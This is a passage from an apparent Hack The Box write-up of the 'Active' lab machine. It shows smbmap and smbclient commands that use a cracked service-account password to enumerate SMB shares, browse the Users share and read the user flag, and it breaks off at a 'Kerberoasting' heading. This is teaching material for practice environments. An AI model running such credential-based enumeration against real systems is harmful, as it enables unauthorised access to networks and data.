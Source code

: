 With our newfound username/password combo, we can enumerate SMB once again and see what shares we now have access to.

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ smbmap -H 10.129.148.0 -d active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
[+] IP: 10.129.148.0:445        Name: active.htb
        Disk                    Permissions     Comment
        ----                    -----------     -------
        ADMIN$                  NO ACCESS       Remote Admin
        C$                      NO ACCESS       Default share
        IPC$                    NO ACCESS       Remote IPC
        NETLOGON                READ ONLY       Logon server share 
        Replication             READ ONLY
        SYSVOL                  READ ONLY       Logon server share 
        Users                   READ ONLY
```

I’ll use smbclient once again to connect to the “Users” share.

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ smbclient //10.129.148.0/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sat Jul 21 10:39:20 2018
  ..                                 DR        0  Sat Jul 21 10:39:20 2018
  Administrator                       D        0  Mon Jul 16 06:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 01:06:44 2009
  Default                           DHR        0  Tue Jul 14 02:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  Public                             DR        0  Tue Jul 14 00:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 11:16:32 2018
```

Looks like it corresponds directly to the `C:\Users` directory.

# User Flag

By navigating to `C:\Users\SVC_TGS\Desktop`, we can immediately retrieve the flag within `user.txt`.

![Untitled 3](https://user-images.githubusercontent.com/85040841/155660300-b00aac8d-c5c1-4c56-a32c-0703cdf99e88.png)

```ruby
┌──(kali㉿kali)-[~/htb/machines/active]
└─$ cat user.txt  
2639************************342f
```

# Kerberoasting
